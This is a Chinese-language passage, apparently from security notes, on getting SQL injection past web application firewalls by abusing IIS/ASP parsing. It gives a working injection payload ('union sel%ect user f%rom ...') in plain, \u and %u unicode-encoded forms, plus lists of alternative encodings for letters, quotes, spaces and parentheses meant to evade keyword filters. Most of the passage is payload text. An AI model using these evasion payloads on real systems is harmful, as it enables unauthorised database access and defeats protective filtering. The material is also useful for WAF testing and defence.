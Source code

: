 [BIGINT Overflow Error Based SQL Injection](http://www.thinkings.org/2015/08/10/bigint-overflow-error-sqli.html)

## **3.容器特性 **

**%特性：**
asp+iis的环境中，当我们请求的url中存在单一的百分号%时，iis+asp会将其忽略掉，而 没特殊要求的waf当然是不会的：

```sql
id =1' union sel%ect user f%rom ddd
```

**%u特性：**

iis支持unicode的解析，当我们请求的url存在unicode字符串的话iis会自动将其转换，但 waf就不一定了：  

````
id =1' union sel%ect user f%rom ddd
\u0069\u0064\u0020\u003D\u0031\u0027\u0020\u0075\u006E\u0069\u006F\u006E\u0020\u0073\u0065\u006C\u0025\u0065\u0063\u0074\u0020\u0075\u0073\u0065\u0072\u0020\u0066\u0025\u0072\u006F\u006D\u0020\u0064\u0064\u0064
%u0069%u0064%u0020%u003D%u0031%u0027%u0020%u0075%u006E%u0069%u006F%u006E%u0020%u0073%u0065%u006C%u0025%u0065%u0063%u0074%u0020%u0075%u0073%u0065%u0072%u0020%u0066%u0025%u0072%u006F%u006D%u0020%u0064%u0064%u0064
````

这个特性还存在另一个case，就是多个widechar会有可能转换为同一个字符。

```
s%u0065lect->select
s%u00f0lect->select
```

WAF对%u0065会识别出这是e，组合成了select关键字，但有可能识别不出%u00f0

其实不止这个，还有很多类似的

```
字母a：
%u0000
%u0041
%u0061
%u00aa
%u00e2
单引号：
%u0027
%u02b9
%u02bc
%u02c8
%u2032
%uff07
%c0%27
%c0%a7
%e0%80%a7
空白：
%u0020
%uff00
%c0%20
%c0%a0
%e0%80%a0
左括号(：
%u0028
%uff08
%c0%28
%c0%a8
%e0%80%a8
右括号)：
%u0029
%uff09
```